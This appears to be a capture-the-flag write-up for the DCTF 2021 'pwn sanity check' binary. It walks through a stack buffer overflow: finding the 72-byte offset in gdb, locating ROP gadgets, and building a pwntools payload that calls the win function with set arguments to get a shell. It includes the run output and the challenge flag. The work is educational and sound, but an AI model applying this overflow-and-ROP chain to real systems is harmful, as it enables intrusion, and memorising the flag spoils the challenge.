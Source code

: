 
Function *vuln* calls *shell*, which was not going to spawn a shell, but *win* function would. *vuln* took *0x100* bytes of input, but *local_48* can only take *60*, overflow it then call *win* shall bring a shell.

```c
void vuln(void)
{
  char local_48 [60];
  int local_c;
  
  puts("tell me a joke");
  fgets(local_48,0x100,stdin);
  if (local_c == -0x21523f22) {
    puts("very good, here is a shell for you. ");
    shell();
  }
  else {
    puts("will this work?");
  }
  return;
}

void shell(void)
{
  puts("spawning /bin/sh process");
  puts("wush!");
  printf("$> ");
  puts("If this is not good enough, you will just have to try harder :)");
  return;
}

void win(int param_1,int param_2)
{
  puts("you made it to win land, no free handouts this time, try harder");
  if (param_1 == -0x21524111) {
    puts("one down, one to go!");
    if (param_2 == 0x1337c0de) {
      puts("2/2 bro good job");
      system("/bin/sh");
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
  }
  return;
}
```

### Find The Padding

Run in *gdb*, input a precreated 100 bytes pattern to overflow the array, 

```bash
gef➤  pattern create 100                                                            
[+] Generating a pattern of 100 bytes                                                                                                                                   
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa                                                                    
[+] Saved as '$_gef0'                                                                                                                                                   
gef➤  r                                                                             
Starting program: /home/zex/lab_ex/hacking-lab/dctf-2021/pwn-sanity-check/pwn_sanity_check                                                                              
tell me a joke                                                                      
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa                                                                    
will this work?                                                                     
                                                                                    
Program received signal SIGSEGV, Segmentation fault.   
...
```


Checked out *rip* for the address, searched the patten, the offset was likely to be *72*, so *72* bytes padding might be needed.

```bash
gef➤  info frame 
Stack level 0, frame at 0x7fffffffda98:
 rip = 0x40078b in vuln; saved rip = 0x616161616161616a
 called by frame at 0x7fffffffdaa8
 Arglist at 0x6161616161616169, args: 
 Locals at 0x6161616161616169, Previous frame's sp is 0x7fffffffdaa0
 Saved registers:
  rip at 0x7fffffffda98
gef➤  pattern search 0x616161616161616a
[+] Searching '0x616161616161616a'
[+] Found at offset 72 (little-endian search) likely
[+] Found at offset 65 (big-endian search) 
```


### Pass The Parameters


Took a look into the asm code from *objdump*, *win* used *edi* for the first parameter and *esi* for the second one, they were supposed to be *0xdeadbeef* and *0x1337c0de*, respectively.

```asm
0000000000400697 <win>:
  400697:       55                      push   %rbp
  400698:       48 89 e5                mov    %rsp,%rbp
  40069b:       48 83 ec 10             sub    $0x10,%rsp
  40069f:       89 7d fc                mov    %edi,-0x4(%rbp)
  4006a2:       89 75 f8                mov    %esi,-0x8(%rbp)
  4006a5:       48 8d 3d 8c 01 00 00    lea    0x18c(%rip),%rdi        # 400838 <_IO_stdin_used+0x8>
  4006ac:       e8 9f fe ff ff          callq  400550 <puts@plt>
  4006b1:       81 7d fc ef be ad de    cmpl   $0xdeadbeef,-0x4(%rbp)
  4006b8:       75 37                   jne    4006f1 <win+0x5a>
  4006ba:       48 8d 3d b7 01 00 00    lea    0x1b7(%rip),%rdi        # 400878 <_IO_stdin_used+0x48>
  4006c1:       e8 8a fe ff ff          callq  400550 <puts@plt>
  4006c6:       81 7d f8 de c0 37 13    cmpl   $0x1337c0de,-0x8(%rbp)
  4006cd:       75 22                   jne    4006f1 <win+0x5a>
  4006cf:       48 8d 3d b7 01 00 00    lea    0x1b7(%rip),%rdi        # 40088d <_IO_stdin_used+0x5d>
  4006d6:       e8 75 fe ff ff          callq  400550 <puts@plt>
  4006db:       48 8d 3d bc 01 00 00    lea    0x1bc(%rip),%rdi        # 40089e <_IO_stdin_used+0x6e>
  4006e2:       e8 79 fe ff ff          callq  400560 <system@plt>
  4006e7:       bf 00 00 00 00          mov    $0x0,%edi
  4006ec:       e8 af fe ff ff          callq  4005a0 <exit@plt>
  4006f1:       90                      nop
  4006f2:       c9                      leaveq 
  4006f3:       c3                      retq  
```

To pass the parameters, gadgets can be handy. Gadget *'pop rsi; ret;'* wasn't found, but *'pop rsi; pop r15; ret;'* also work.

```bash
$ ROPgadget --binary pwn_sanity_check |grep "pop rsi"
0x0000000000400811 : pop rsi ; pop r15 ; ret
```

Used *pwn.ROP* in python.

```python
pop_rdi = pwn.p64(rop.find_gadget(['pop rdi', 'ret']).address)
pop_rsi = pwn.p64(rop.find_gadget(['pop rsi', 'pop r15', 'ret']).address)
```

### Cat Flag.txt

Combined them all, the payload was created as below.

```python
payload = b"A"*72
payload += pop_rdi
payload += pwn.p64(0xdeadbeef)
payload += pop_rsi
payload += pwn.p64(0x1337c0de)
payload += pwn.p64(0x1337c0de)
payload += pwn.p64(elf.sym['win'])
```

Cat the flag once pwned. Complete exploit is [here](https://github.com/onealmond/hacking-lab/blob/master/dctf-2021/pwn-sanity-check/exploit.py).

```python
print(payload, len(payload))
pr.sendafter("joke\n", payload)
pr.sendline()
pr.sendline("cat flag.txt")
print(pr.readall(2))
```

```bash
$ python3 exploit.py 
[+] Opening connection to dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io on port 7480: Done
[*] '/home/zex/lab_ex/hacking-lab/dctf-2021/pwn-sanity-check/pwn_sanity_check'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for 'pwn_sanity_check'
b'\x13\x08@\x00\x00\x00\x00\x00'
b'\x11\x08@\x00\x00\x00\x00\x00'
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x13\x08@\x00\x00\x00\x00\x00\xef\xbe\xad\xde\x00\x00\x00\x00\x11\x08@\x00\x00\x00\x00\x00\xde\xc07\x13\x00\x00\x00\x00\xde\xc07\x13\x00\x00\x00\x00\x97\x06@\x00\x00\x00\x00\x00' 120
[+] Receiving all data: Done (137B)
[*] Closed connection to dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io port 7480
b'will this work?\nyou made it to win land, no free handouts this time, try harder\none down, one to go!\n2/2 bro good job\ndctf{Ju5t_m0v3_0n}\n'
```

